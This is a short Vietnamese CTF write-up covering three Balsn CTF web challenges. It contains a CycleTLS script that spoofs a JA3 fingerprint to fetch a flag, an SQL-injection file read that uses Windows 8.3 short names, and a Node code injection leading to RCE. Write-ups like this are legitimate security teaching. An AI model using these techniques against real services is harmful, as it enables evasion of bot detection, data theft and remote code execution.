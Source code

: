 # 0FA
Ứng dụng dùng TLS/JA3 fingerprints, mình đã search tool để spoof nó (https://github.com/Danny-Dasilva/CycleTLS).

```js
const initCycleTLS = require('cycletls');
// Typescript: import initCycleTLS from 'cycletls';

(async () => {
  // Initiate CycleTLS
  const cycleTLS = await initCycleTLS();

  // Send request
  const response = await cycleTLS('https://0fa.balsnctf.com:8787/flag.php', {
    body: 'username=admin',
    ja3: '771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0',
    headers: {'Content-Type': 'application/x-www-form-urlencoded'}
  }, 'POST');

  console.log(response);

  // Cleanly exit CycleTLS
  cycleTLS.exit();

})();

```

# ginowa
SQL injection ở /index.php?id=, dùng nó để đọc file read flag bằng shortname C:/readfl~1.exe, sau khi reverse nó thì thấy nó đọc file s. Lại tiếp tục dùng SQL injection để lấy file s rồi reverse tiếp là có flag.

Trick: name 8.3 trên Windows.

# saas
Ở endpoint /register nhận user input làm đầu vào của validatorFactory -> inject được node code.
![image](https://github.com/lemauanhphong/ctf_writeups/assets/91038460/6fc8c6ea-6c67-4309-a49e-153a14bee52c)

Sau khi inject được thì trigger ở endpoint /whowilldothis/:uid để RCE
![image](https://github.com/lemauanhphong/ctf_writeups/assets/91038460/86389be2-a115-4662-8c1e-67ac07813a0e)


